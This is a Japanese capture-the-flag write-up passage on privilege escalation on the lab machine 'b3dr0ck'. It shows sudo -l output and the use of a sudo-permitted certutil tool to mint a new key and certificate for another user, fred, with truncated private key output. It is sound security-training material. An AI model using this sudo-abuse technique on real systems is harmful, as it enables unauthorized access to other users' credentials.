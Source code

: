 ## 権限昇格１

```
barney@b3dr0ck:~$ sudo -l
[sudo] password for barney:
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
```

certutil を sudo で実行できる。

```shell
barney@b3dr0ck:~$ sudo certutil -h

Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]
```

```shell
barney@b3dr0ck:~$ certutil ls

Current Cert List: (/usr/share/abc/certs)
------------------
total 56
drwxrwxr-x 2 root root 4096 Apr 30  2022 .
drwxrwxr-x 8 root root 4096 Apr 29  2022 ..
-rw-r----- 1 root root  972 Mar 25 08:08 barney.certificate.pem
-rw-r----- 1 root root 1674 Mar 25 08:08 barney.clientKey.pem
-rw-r----- 1 root root  894 Mar 25 08:08 barney.csr.pem
-rw-r----- 1 root root 1674 Mar 25 08:08 barney.serviceKey.pem
-rw-r----- 1 root root  976 Mar 25 08:08 fred.certificate.pem
-rw-r----- 1 root root 1674 Mar 25 08:08 fred.clientKey.pem
-rw-r----- 1 root root  898 Mar 25 08:08 fred.csr.pem
-rw-r----- 1 root root 1674 Mar 25 08:08 fred.serviceKey.pem
```

fred の既存のキーを読む方法はなさそうに思えるので、生成する。

フルネームが分からないので適当に「fred jr」にした。

```shell
barney@b3dr0ck:~$ sudo certutil fred 'fred jr'
Generating credentials for user: fred (fred jr)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAxJehAfD8KHhuDNLAT1TiLbR/HsNUhGhYqmae+DCVah0D3GRq
中略
3VzR3aQzTeY5ZDTcRXJv4DB6lKeypFs/3L7Dz+wzClUsL5FNwkA=
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIICmzCCAYMCAjA5MA0GCSqGSIb3DQEBCwUAMBQxEjAQBgNVBAMMCWxvY2FsaG9z
中略
M8A4EHS+oSM6Pv8krhDrEUFz+GvKcLNT6/yWDsiym9fWExEccg0Jip3FgBcB/Qo=
-----END CERTIFICATE-----
```
